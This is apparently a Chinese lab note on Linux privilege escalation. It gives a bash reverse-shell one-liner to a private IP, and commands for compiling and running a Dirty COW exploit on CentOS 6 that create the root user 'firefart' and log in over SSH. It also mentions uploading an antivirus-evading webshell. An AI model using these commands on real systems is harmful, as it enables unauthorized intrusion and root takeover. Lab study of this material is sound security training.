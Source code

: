 #Linux提权



![image-20210825091349543](8-25Linux提权\image-20210825091349543.png)



反弹shell

bash -i >& /dev/tcp/172.16.12.171/8888  0>&1



#centos6脏牛提权_基础实验

![image-20210825125641690](8-25Linux提权\image-20210825125641690.png)

目标位置上传as免杀马

as链接

![image-20210825125752200](8-25Linux提权\image-20210825125752200.png)

打开终端，ls查看 

执行gcc -pthread dirty.c -o cow -lcrypt 编译命令，生成文件

![image-20210825125917626](8-25Linux提权\image-20210825125917626.png)

接着执行 ./cow 123   ,生成新密码

cat /etc/passwd

已经生成了root权限的用户firefart

![image-20210825132225653](8-25Linux提权\image-20210825132225653.png)

打开终端 远程链接  ssh firefart@172.16.12.2 输入密码

whoami查看  













#靶场：ubuntu14脏牛提权_基础实验